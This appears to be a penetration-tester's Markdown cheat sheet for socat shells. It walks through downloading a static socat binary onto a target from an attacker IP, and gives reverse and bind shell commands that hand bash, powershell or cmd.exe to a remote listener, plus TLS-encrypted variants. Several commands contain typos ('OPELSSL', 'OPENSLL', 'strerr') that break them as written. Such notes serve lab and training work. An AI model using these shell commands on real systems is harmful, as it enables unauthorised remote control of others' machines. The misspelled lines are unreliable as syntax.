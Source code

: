 
get binary https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true

from simpler nc shell:
- upload socat binary to target machine (`python3 -m http.server 8000`)
- `wget 10.18.21.236/socat` or `curl -O http://10.18.21.236/socat` to dl to current dir

socat is used to connect two points together - for example your keyboard/screen and a remote ip+port

mostly useful on linux

---
## Shells

#### Reverse shell - Listener on our machine

listen on our machine: (can be used like `nc -lvnp <port>`, not just for socat connections)
`socat TCP-L:<port> -`

connect with windows target:
`socat TCP:<ip>:<port> EXEC:powershell.exe,pipes`
`pipes` forces use of unix style io

connect with linux target:
`socat TCP:<ip>:<port> EXEC:"bash -li"`

#### Bind shell - listener on target

listen on linux target:
`socat TCP-L:<port> EXEC:"bash -li"`

listen on windows target:
`socat TCP-L:<port> EXEC:powershell,pipes`
`pipes` forces use of unix style io

connect with our machine:
`socat TCP:<ip>:<port> -`

`-` means stdio, standard input output


### Debugging

You can add `-d -d` to a socat command to increase verbosity


## Encrypted shells

#### Create certificate

generate a certificate:
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
`req` request a certificate
`--newkey rsa:2048` generate a 2048 bit RSA key
`-nodes` save private key as plain text
`-keyout shell.key` key filename
`-x509` generate a self-signed cert
`-days 362` set cert validity
`-out shell.crt` cert filename

merge the key and the cert:
`cat shell.key shell.crt > shell.pem`

#### Reverse shell - Listener on our machine

listen on our machine:
`socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`
`verify=0` don't validate that cert has been signed by recognized authority

connect with linux target:
`socat OPELSSL:<ip>:<port>,verify=0 EXEC:/bin/bash`

#### Bind shell - listener on target

listen on windows target:
`socat OPENSLL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
`verify=0` don't validate cert has been signed by recognized authority
`pipes` forces use of unix style io

connect with our machine:
`socat OPENSLL:<ip>:<port>,verify=0 -`


## More advanced listener for linux

Requires socat on both machines

listen on our machine:
`socat TCP-L:<port> FILE:'tty',raw,echo=0`
is much more stable and sets echo off

connect with linux target:
`socat TCP:<ip>:<port> EXEC:"bash -li",pty,strerr,sigint,setsid,sane`

#### With encryption

listen on our machine:
`socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 FILE:'tty',raw,echo=0`

connect with linux target:
`socat OPENSSL:<ip>:<port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`



